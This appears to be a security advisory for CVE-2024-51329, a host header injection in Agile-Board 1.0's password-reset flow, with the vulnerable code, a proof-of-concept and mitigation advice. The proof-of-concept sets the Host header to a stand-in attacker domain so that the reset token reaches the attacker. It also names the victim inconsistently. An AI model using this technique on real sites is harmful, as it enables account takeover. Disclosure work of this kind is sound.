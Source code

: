 # CVE-2024-51329: Host Header Injection in Agile Board 1.0

A Host Header Injection vulnerability in Agile-Board 1.0 allows attackers to obtain password reset token via user interaction wth a crafted password reset link.

Vulnerable code:
```ts
    //host header is used to construct link !
    const resetLink = `http://${req.headers.host}/password-reset?userId=${user.id}&token=${token}`;

    const emailOptions = {
      recipient: user.email,
      subject: 'Password Reset',
      content: `Please click on the following link to reset your password: ${resetLink}`,
    };

```

 
## Proof-of-concept:

* We trigger the forgot password functionality for an existing user, such as `victim1@email.com`, and provide a malicious host header: `Host: attacker-controlled.com`.
* This sends a password reset email to staff1@email.com that contains the following:
```plaintext
Please click on the following link to reset your password: https://attacker-controlled.com/password-reset?userId=<USERID>&token=<TOKENHERE>
```

* Note the host being `attacker-controlled.com`.
* When user `victim1` clicks the link and attempts to use the password reset token, the token is leaked to the attacker, allowing the attacker to reset and takeover `victim`'s account.



## Mitigation:
* Use a configuration setting or an environment variable for the base URL (e.g., BASE_URL), which ensures that your application uses a known and trusted domain.
* Replace req.headers.host with the predefined BASE_URL.

<br><br>

**Discovered by Anirudh Krishnaprasad, October 2024.**

## References :

- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-51329](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-51329)
- https://nvd.nist.gov/vuln/detail/CVE-2024-51329
